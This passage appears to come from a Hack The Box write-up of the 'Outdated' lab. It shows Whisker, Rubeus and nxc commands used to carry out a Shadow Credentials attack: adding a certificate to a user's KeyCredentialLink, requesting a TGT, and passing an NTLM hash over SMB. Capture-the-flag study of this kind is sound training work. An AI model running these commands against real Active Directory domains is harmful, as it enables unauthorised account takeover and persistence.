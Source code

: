 ![image.png](/assets/Images/HTB_Outdated/image%2014.png)

Adds a malicious certificate to the `sflowers` user’s KeyCredentialLink attribute, enabling certificate-based logon.

```bash
.\Whisker.exe add /target:sflowers /domain:outdated.htb /dc:dc.outdated.htb
```

![image.png](/assets/Images/HTB_Outdated/image%2015.png)

Uses the injected certificate to request a TGT for `sflowers`, proving successful persistence via Shadow Credentials.

```bash
.\Rubeus.exe asktgt /user:sflowers /certificate:MIIJu...<SNIP>...xsHaGL7gICB9A= /password:"HThy7lv4XuCMm8mE" /domain:outdated.htb /dc:dc.outdated.htb /getcredentials /show
```

![image.png](/assets/Images/HTB_Outdated/image%2016.png)

Validates access by connecting over SMB with `sflowers`’ NTLM hash, showing the account is fully compromised.

```bash
nxc smb $IP -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
```

![image.png](/assets/Images/HTB_Outdated/image%2017.png)
